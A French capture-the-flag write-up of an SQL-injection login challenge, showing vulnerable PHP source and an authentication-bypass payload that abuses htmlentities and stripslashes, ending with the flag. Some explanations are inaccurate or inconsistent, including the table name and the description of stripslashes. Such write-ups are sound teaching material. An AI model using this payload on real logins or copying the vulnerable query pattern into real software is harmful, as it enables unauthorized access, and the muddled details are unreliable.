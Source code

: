 # Web 100 - Super Query Login v1

Une nouvelle épreuve avec une injection SQL, la source du challenge est disponible:
```php
<!DOCTYPE html>
<html>
<head>
<title>SQLi</title>
</head>
<body>
<p>Bypass this auth !<br><a href="?viewsource">source</a></p>
<form action="" method="POST">
Login: <input type="text" name="login"><br>
Passw: <input type="password" name="password"><br>
<input type="submit" value="Connection">
</form>
<?php
if (isset($_POST['login']) && isset($_POST['password'])) {
require('config.php');
$login = stripslashes(htmlentities($_POST['login'], ENT_QUOTES)); **[1]**

$pass = stripslashes(htmlentities($_POST['password'], ENT_QUOTES)); **[2]**


$sql = "SELECT * FROM web1_users WHERE login = '" . $login . "' AND password = '" . $pass . "' ";** [3]**
$result = mysql_query($sql) or die(mysql_error());
if( mysql_num_rows($result) == 1) {
$data = mysql_fetch_array($result);
echo "You can valid with <b>".$data['password']."</b>";
}
else {
echo "<b>Wrong login/password !</b>";
}
}
?>
</body>
</html>```


En [1] et [2] on a la fonction htmlentities($var, ENT_QUOTES) qui échappe les quotes (‘) et les
guillemets (“). 
Si pour le login on soumet 
> ‘or 1=1 #

, le login après avoir été passé dans htmlentities aura
la valeur \’or 1=1 # et notre injection ne fonctionnera pas.

L’idée ici c’est de profiter que l’on peut manipuler les variables $login ET $pass.
On va alors échapper le guillemet de fermeture de $login: \

La requête SQL [3] devient alors:
```sql
SELECT * FROM chall1_users WHERE login = '\' AND password = 'toto'
```
En vert la partie qui sera interprétée comme le login et le reste notre champ d’exploitation.
Cependant la variable $login est aussi passée dans la fonction stripslashes() qui a pour effet d’échapper
les back slashes. 
Il nous suffit d’injecter comme ceci: \ \ ce qui nous donnera:
```sql
SELECT * FROM chall1_users WHERE login = '\\\' AND password = 'toto'
```

L’injection finale pour se connecter est la suivante.

```sql
login=\\ &password= or 1=1 limit 1 -- a-

```
On obtient ensuite le flag : **ese{Htmlentities_bypass}**
